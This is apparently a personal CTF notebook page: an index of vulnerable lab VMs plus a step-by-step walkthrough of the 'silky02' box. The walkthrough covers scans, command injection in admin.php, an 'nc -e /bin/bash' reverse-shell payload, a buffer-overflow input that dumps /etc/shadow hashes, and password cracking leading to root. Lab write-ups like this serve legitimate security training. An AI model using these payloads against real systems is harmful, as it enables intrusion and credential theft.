



Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
silky02
Nmap scan report for 192.168.56.105Host is up (0.00010s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
MAC Address: 08:00:27:45:98:14 (Oracle VirtualBox virtual NIC)
Nmap done: 255 IP addresses (3 hosts up) scanned in 6.61 seconds
root@kali:~# nmap -A -p- 192.168.56.105
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-30 11:41 EDT
Nmap scan report for 192.168.56.105
Host is up (0.00041s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
| 2048 eb:74:50:5c:6f:57:04:15:bd:8c:57:ff:eb:a2:9f:58 (RSA)
| 256 97:50:40:64:05:4e:57:44:7d:31:a7:60:84:0a:9d:5c (ECDSA)
|_ 256 fe:6e:fa:67:54:96:a7:bd:54:45:10:30:1c:20:c3:61 (ED25519)
80/tcp open http Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:45:98:14 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.41 ms 192.168.56.105
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.12 seconds
root@kali:~# dirb http://192.168.56.105/ /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Wed Oct 30 11:44:23 2019
URL_BASE: http://192.168.56.105/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.56.105/ ----
+ http://192.168.56.105/admin.php (CODE:200|SIZE:3702)
+ http://192.168.56.105/index.html (CODE:200|SIZE:10701)
+ http://192.168.56.105/server-status (CODE:403|SIZE:302)
-----------------
END_TIME: Wed Oct 30 11:44:24 2019
DOWNLOADED: 4612 - FOUND: 3

Vulnerable to command injection:
http://192.168.56.105/admin.php?username=ls&password=%27test%27

Silky.jpg admin.php index.html nopesry.html nothinghere.html
http://192.168.56.105/nopesry.html, and nothinghere.html
Sry hier ist nix, such weiter ;)
Translated:
Sry here is nothing, keep looking;)
Reverse shell command injection:
nc -lvp 1234
http://192.168.56.105/admin.php?username=nc%20-e%20/bin/bash%20192.168.56.1%201234&password=%27test%27
python -c 'import pty;pty.spawn("/bin/bash")'
find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/su
/bin/fusermount
/bin/umount
/bin/ping
/bin/ntfs-3g
/home/silky/cat_shadow
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
www-data@Silky-CTF0x02:/var/www/html$ /home/silky/cat_shadow
/home/silky/cat_shadow
cat_shadow:
Usage: cat_shadow <Password>
www-data@Silky-CTF0x02:/var/www/html$
Usage: cat_shadow <Password>
Trying to cat /etc/shadow
Permisson denied!
0x%08x != 0x496c5962
Trying to read /etc/shadow
Succes
Printing...
/bin/cat /etc/shadow
0x496c5962 is 1231837538
-> 500 character length string overrides the memory
0x6341363 is 104076131
-> the exact offset is 64:
www-data@Silky-CTF0x02:/var/www/html$ cd /home/silky
cd /home/silky
www-data@Silky-CTF0x02:/home/silky$ ls
ls
Bilder Downloads Schreibtisch Vorlagen flag.txt
Dokumente Musik Videos cat_shadow ??ffentlich
www-data@Silky-CTF0x02:/home/silky$ cat flag.txt
cat flag.txt
flag:d68815f2afbc48a2a717de2f35478600
www-data@Silky-CTF0x02:/home/silky$
cat_shadow has buffer overflow:
www-data@Silky-CTF0x02:/home/silky$ python -c "print 'A'*64 +'\x62\x59\x6c\x49'" | xargs ./cat_shadow
<nt 'A'*64 +'\x62\x59\x6c\x49'" | xargs ./cat_shadow
Trying to read /etc/shadow
Succes
Printing...
root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::
daemon:*:18012:0:99999:7:::
bin:*:18012:0:99999:7:::
sys:*:18012:0:99999:7:::
sync:*:18012:0:99999:7:::
games:*:18012:0:99999:7:::
man:*:18012:0:99999:7:::
lp:*:18012:0:99999:7:::
mail:*:18012:0:99999:7:::
news:*:18012:0:99999:7:::
uucp:*:18012:0:99999:7:::
proxy:*:18012:0:99999:7:::
www-data:*:18012:0:99999:7:::
backup:*:18012:0:99999:7:::
list:*:18012:0:99999:7:::
irc:*:18012:0:99999:7:::
gnats:*:18012:0:99999:7:::
nobody:*:18012:0:99999:7:::
systemd-timesync:*:18012:0:99999:7:::
systemd-network:*:18012:0:99999:7:::
systemd-resolve:*:18012:0:99999:7:::
systemd-bus-proxy:*:18012:0:99999:7:::
_apt:*:18012:0:99999:7:::
dnsmasq:*:18012:0:99999:7:::
avahi-autoipd:*:18012:0:99999:7:::
messagebus:*:18012:0:99999:7:::
usbmux:*:18012:0:99999:7:::
geoclue:*:18012:0:99999:7:::
speech-dispatcher:!:18012:0:99999:7:::
rtkit:*:18012:0:99999:7:::
pulse:*:18012:0:99999:7:::
avahi:*:18012:0:99999:7:::
colord:*:18012:0:99999:7:::
saned:*:18012:0:99999:7:::
Debian-gdm:*:18012:0:99999:7:::
hplip:*:18012:0:99999:7:::
silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::
mysql:!:18012:0:99999:7:::
sshd:*:18012:0:99999:7:::
→ use john to crack the root password
john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt --rules silky2_shad
password is greygrey
www-data@Silky-CTF0x02:/home/silky$ su
su
Password: greygrey
root@Silky-CTF0x02:/home/silky#

FIN